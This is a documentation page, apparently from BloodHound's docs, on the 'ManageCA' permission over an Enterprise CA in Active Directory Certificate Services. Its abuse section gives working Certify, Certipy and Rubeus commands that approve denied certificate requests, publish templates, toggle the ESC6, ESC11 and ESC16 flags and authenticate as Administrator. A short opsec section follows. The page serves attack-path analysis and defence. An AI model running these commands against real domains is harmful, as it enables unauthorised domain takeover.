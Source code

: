 ```yaml
---
title: ManageCA
description: The principal has the "Manage CA", also known as "CA Administrator", permission on the Enterprise CA.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to configure the CA to allow subject alternate names, publish certificate templates, grant "Manage Certificates", grant enrollment rights, change certain CA flags, and more.

CA Administrators can perform the following actions that may enable an ADCS escalation:

1. Grant CA Officer (ManageCertificates) and approve a denied certificate request
2. Publish a certificate template (e.g. one that enables an ESC1 condition)
3. Grant Enroll on the enterprise CA
4. Enable the ESC6 CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
5. Disable the ESC11 enforcement flag `IF_ENFORCEENCRYPTICERTREQUEST` (weakens RPC enrollment security; enables relay)
6. Disable the security extension on the enterprise CA (ESC16)
7. Abuse a CRL Distribution Point (CDP) to coerce and relay the CA server
8. Abuse a CDP to obtain RCE on the CA server (e.g., via web shell)

## Abuse Info

This relationship alone is not automatically a privilege escalation; however, it frequently enables one of several ADCS escalation paths when combined with template / CA configuration weaknesses.


### 1. Grant CA Officer and Approve a Denied Request

Role separation (when enabled) prevents a single principal from holding both ManageCA and ManageCertificates, but this configuration is rare.

**Windows**

Grant the CA Officer (ManageCertificates) role with Certify (v2.0):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --officer S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```
Request an ESC1 (or other high-value) certificate you don't have enrollment rights for:
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Approve the denied certificate request by ID:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the certificate (captures private key in Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (example with Rubeus):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

**Linux**
Grant CA Officer (ManageCertificates) role:
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password 'Passw0rd'
```
Issue (approve) a previously denied request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

### 2. Publish a Certificate Template

**Windows**

Publish/unpublish a template (e.g. enabling ESC1):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --template MyTemplate
```

**Linux**

Publish a template:
```bash
certipy ca -ca 'corp-DC-CA' -enable-template TemplateCN -username john@corp.local -password 'Passw0rd'
```

See the ADCS ESC1 abuse documentation for subsequent exploitation steps: [ADCSESC1](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/adcs-esc1)

### 3. Grant Enroll on Enterprise CA

**Windows**

Grant or revoke CA enrollment rights (required for certificate issuance):

```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --enroll S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```

### 4. Enable ESC6 Flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc6
```
Restart of the CA service (requires local admin) is needed for the change to apply.
See the ADCS ESC6 abuse documentation for subsequent exploitation steps: [ADCSESC6a](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/adcs-esc6a)

### 5. Disable ESC11 Flag `IF_ENFORCEENCRYPTICERTREQUEST`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc11-req
```
Restart of the CA service required.

### 6. Disable Security Extension (ESC16)
**Windows**

Set CA settings for ESC16:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc16
```
Restart of the CA service required.

### 7 & 8. Abuse CDP for Coercion / RCE

Techniques to coerce & relay or achieve RCE via CDP manipulation are described here: [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)


## Opsec Considerations

Abusing these capabilities commonly results in certificate issuance; issued certificates (and sometimes pending requests) leave artifacts on the CA host. Enabling/disabling flags or publishing templates may generate observable administrative events and typically requires a CA service restart for certain changes (ESC6, ESC11, ESC16) to take effect.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)   
Destination: [EnterpriseCA](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/enterprise-ca)   
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCA](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#manageca)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)
* [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)

